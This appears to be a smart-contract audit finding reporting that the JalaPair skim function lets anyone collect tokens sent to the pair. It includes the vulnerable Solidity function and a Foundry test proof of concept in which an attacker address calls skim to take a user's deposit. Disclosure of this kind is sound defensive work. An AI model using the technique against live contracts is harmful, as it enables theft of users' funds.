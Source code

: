 Tall Pecan Bird

medium

# Broken access control on JalaPair::skim allows attackers to transfers users tokens to himself

## Summary
The JalaPair::skim function allows anyone to steal user's deposited tokens to JalaPair contract as it does not implement access control of who can call it.  
This means that if a user "A" deposits some  token0 or token1 tokens to JalaPair an attacker B could call skim() with his address as arg ie skim(attacker) to receive user's A deposited tokens.   

## Vulnerability Detail
The vulnerability exists in JalaPair::skim function because it doesnt restrict who can call skim after some liquidity is deposited, ie, it doesnt keep track of who deposited liquidity tokens.    
Skim function directly sends the not tracked tokens (ie balance - reserve) to the `to` address:     
```js
    function skim(address to) external lock {
        address _token0 = token0; // gas savings
        address _token1 = token1; // gas savings
        _safeTransfer(_token0, to, IERC20(_token0).balanceOf(address(this)) - reserve0);
        _safeTransfer(_token1, to, IERC20(_token1).balanceOf(address(this)) - reserve1);
    }
```  
So, an attacker could monitor tx pool to see when a user A sends token0 or token1 tokens to JalaPair.  
Next attacker could call skim using his address as argument ie skim(attacker) to steal user's A `token0` or `token1` deposited tokens  

## Impact
The impact of this vulnerability includes:  
1. Stealing deposited tokens of other users  
2. Loss of confidence in JalaSwap contracts
The following PoC shows an user A depositing LP tokens and attacker call it skim to obtain user token0 or token1    
First import console library
```js
import "forge-std/console.sol";
```  
And include this test in test file JalaPair.t.sol:    
```js
    function test_stealPairStealTokens() public {
        // make address for user and attacker
        address user = makeAddr("user");
        address attacker = makeAddr("attacker");
        token0.mint(1 ether, address(user));
        token1.mint(1 ether, address(user));

        // user sends token0 and token1 to JalaPair
        vm.startPrank(user);
        token0.transfer(address(pair), 1 ether);
        token1.transfer(address(pair), 1 ether);
        vm.stopPrank();

        // Attacker steals user's tokens using skim
        vm.startPrank(attacker);
        // Attacker balances before calling skim
        console.log("attacker before skim token0 balance ", token0.balanceOf(attacker));
        console.log("attacker before skim token1 balance ", token1.balanceOf(attacker));

        pair.skim(attacker);

        // Attacker balances after calling skim
        console.log("attacker after skim token0 balance ", token0.balanceOf(attacker));
        console.log("attacker after skim token1 balance ", token1.balanceOf(attacker));
        vm.stopPrank();
    }
```  

## Code Snippet
https://github.com/sherlock-audit/2024-02-jala-swap/blob/main/jalaswap-dex-contract/contracts/JalaPair.sol#L262-L272

## Tool used

Manual Review

## Recommendation  
To mitigate this vulnerability  it is recommended to send the exceeding tokens to a controlled address, or burn it instead to avoid missapropiation of tokens    

